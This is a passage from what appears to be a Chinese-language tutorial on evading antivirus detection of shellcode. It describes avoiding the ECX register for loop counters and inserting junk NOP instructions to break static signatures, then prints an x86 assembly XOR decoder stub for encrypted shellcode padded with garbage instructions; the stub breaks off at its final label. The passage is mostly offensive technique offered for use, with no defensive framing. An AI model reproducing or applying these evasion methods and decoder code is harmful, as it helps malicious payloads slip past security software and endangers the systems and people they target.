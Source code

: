 **不常见的寄存器的使用：**

在x86架构中，所有的寄存器有一个特定的目的，例如ECX表示扩展计数寄存器，且它通常用于循环计数。当我们编写一个基础的循环条件时，编译器可能使用ECX寄存器作为循环计数器变量，在一个代码块中找到连续增长的ECX寄存器强烈暗示了一个循环，这个问题的解决方案非常简单，不使用ECX作为循环计数器，这只是一个例子，但是它对于所有的其它类型的代码片段（如函数epilogue/prologue等）也非常有效。大量的代码识别机制依赖寄存器的使用，使用不常见的寄存器编写汇编代码将减小被检测率。

垃圾代码填充：

在代码块中可能有几百种方法识别解码器，且几乎每个AV产品使用不同的方式，但是最终他们都不得不将可能的解码器的代码块生成一个特征，在解码器代码中使用随机的NOP指令是绕过静态特征分析的一种非常好的方式，不一定要使用NOP指令，可以是任何维持原有功能的其他指令，目标是增加垃圾指令以便破环代码块的恶意的特征。另一个关于编写shellcode重要的事是大小，因此避免使用太大的垃圾混淆代码否则将增加整体大小。

实现这种方法的代码如下：



```
1.; #==============================#
2.; |ESI -&gt; Pointer to shellcode |
3.; |EDI -&gt; Pointer to key |
4.; |EAX -&gt; Shellcode index counter|
5.; |EDX -&gt; Key index counter |
6.; |CL -&gt; Shellcode byte holder |
7.; |BL -&gt; Key byte holder |
8.; #==============================#
9.;
10.
11.[BITS 32]
12.[ORG 0]
13.
14.JMP GetShellcode ; Jump to shellcode label
15.Stub: 
16.POP ESI ; Pop out the address of shellcode to ESI register 
17.PUSH ESI ; Save the shellcode address to stack 
18.XOR EAX,EAX ; Zero out the EAX register
19.GetKey: 
20.CALL SetKey ; Call the SetKey label
21.Key: DB 0x78, 0x9b, 0xc5, 0xb9, 0x7f, 0x77, 0x39, 0x5c, 0x4f, 0xa6 ; Decipher key
22.KeyEnd: EQU $-Key ; Set the size of the decipher key to KeyEnd label
23.SetKey:
24.POP EDI ; Pop the address of decipher key to EDI register
25.NOP ; [GARBAGE]
26.XOR EDX,EDX ; Zero out the EDX register
27.NOP ; [GARBAGE]
28.Decipher: 
29.NOP ; [GARBAGE]
30.MOV CL,[ESI] ; Move 1 byte from shellcode to CL register
31.NOP ; [GARBAGE]
32.NOP ; [GARBAGE]
33.MOV BL,[EDI] ; Move 1 byte from decipher key to BL register
34.NOP ; [GARBAGE]
35.XOR CL,BL ; Make a logical XOR operation between CL ^ BL
36.NOP ; [GARBAGE]
37.NOP ; [GARBAGE]
38.MOV [ESI],CL ; Move back the deciphered shellcode byte to same index
39.NOP ; [GARBAGE]
40.NOP ; [GARBAGE]
41.INC ESI ; Increase the shellcode index
42.INC EDI ; Increase the key index
43.INC EAX ; Increase the shellcode index counter
44.INC EDX ; Increase the key index counter
45.CMP EAX, End ; Compare the shellcode index counter with shellcode size 
46.JE Fin ; If index counter is equal to shellcode size, jump to Fin label
47.CMP EDX,KeyEnd ; Compare the key index counter with key size 
48.JE GetKey ; If key index counter is equal to key size, jump to GetKey label for reseting the key
49.JMP Decipher ; Repeate all operations
50.Fin: ; In here deciphering operation is finished
```
